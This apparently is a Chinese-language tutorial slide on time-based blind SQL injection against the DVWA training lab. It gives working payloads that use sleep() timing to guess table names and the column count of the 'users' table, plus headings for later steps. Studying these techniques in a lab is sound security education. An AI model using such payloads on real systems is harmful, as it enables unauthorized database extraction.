

# 继续猜测
猜解表的名称
1’ and if(ascii(substr((select table_name from information_schema.tables where table_schema=‘dvwa’ limit 0,1),1))>97,sleep(5),1)#
猜解表中有几个字段
1’ and if((select count(column_name)from information_schema.columns where table_name=‘users’)=8,sleep(5),1) #
猜解字段的长度
猜解字段的名称
45
2022/6/11